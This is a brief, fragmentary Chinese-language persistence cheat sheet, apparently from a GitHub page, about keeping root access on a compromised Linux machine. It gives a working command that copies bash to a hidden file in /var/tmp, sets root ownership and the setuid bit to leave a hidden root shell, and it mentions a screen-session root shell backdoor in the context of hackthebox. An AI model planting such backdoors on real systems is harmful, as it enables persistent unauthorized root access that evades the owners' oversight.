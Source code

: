 # 权限维持

hide bash privilege escalate

```
 or 6755  or /bin/dash
 cp /bin/bash /var/tmp/.test; chown root:root /var/tmp/.test; chmod 4755 /var/tmp/.test
```

screen backdoor   hackthebox backdoor   :   share root shell session



